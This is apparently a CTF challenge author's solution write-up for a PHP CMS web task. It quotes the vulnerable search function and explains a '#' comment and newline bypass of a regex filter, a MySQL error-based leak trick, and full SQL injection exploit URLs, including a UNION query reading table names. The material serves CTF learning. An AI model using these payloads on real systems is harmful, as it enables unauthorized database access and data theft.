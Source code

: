 ##Idea

1. SQL Injection
2. Mysql trick



## Solution

- SQL Injection

  classes/Board.class.php line 24~42 

  ```php
  function action_search(){
      $column = Context::get('col');
      $search = Context::get('search');
      $type = strtolower(Context::get('type'));
      $operator = 'or';

      if($type === '1'){
          $operator = 'or';
      }
      else if($type === '2'){
          $operator = 'and';
      }
      if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
          $column = 'title';
      }
      $query = get_search_query($column, $search, $operator);
      $result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
      include(CMS_SKIN_PATH . 'board.php');
  }
  ```

  $column variable filtered by using regex but you can use '#' comment

   if your input is 'title#',  get_search_query function will return like this

  ```mysql
  SELECT * FROM table WHERE LOWER(title#) like '%blablabalbal%';
  ```

  and if you enter return value in search parameter, query work like this:

  ```mysql
  SELECT * FROM table WHERE LOWER(title#) like '%{return value}
  blablabalbal%';
  ```

  okay, we got the way to exploit!

  ​

- Mysql trick

  I'm trying to find trick of mysql and I found an interesting bug

  ```mysql
  select * from user where (id=1)-~1
  ```

  Result :

  ```
  ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((`sqli`.`user`.`id` = 1) - <cache>(~(1)))
  ```

  this works like exp function bug XDD

  ```mysql
  select * from user where id='a' or  exp(~id);
  ```

  ```
  ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(`sqli`.`user`.`id`))'
  ```

  I intended the player to use this trick but they did not use this :(

  I made a mistake to set  the mysql account as root :( Sorry..

  ​

  **Intended solution **

  ```
  table name leak : http://url/index.php?act=board&mid=search&col=title%23&type=1&search=%0a)^(id=1)-~1%23
  ```

  **Unintended solution **

  ```
  http://url/index.php?act=board&mid=search&col=title%23&type=1&search=test%0a)%3C0%20union%20select%201,(select%20table_name%20from%20mysql.innodb_table_stats%20limit%202,1),3,4,5%23
  ```



## Write up

https://ctftime.org/writeup/8619

http://www.zer0xlab.com/Web_SimpleCMS_CodeGateQ/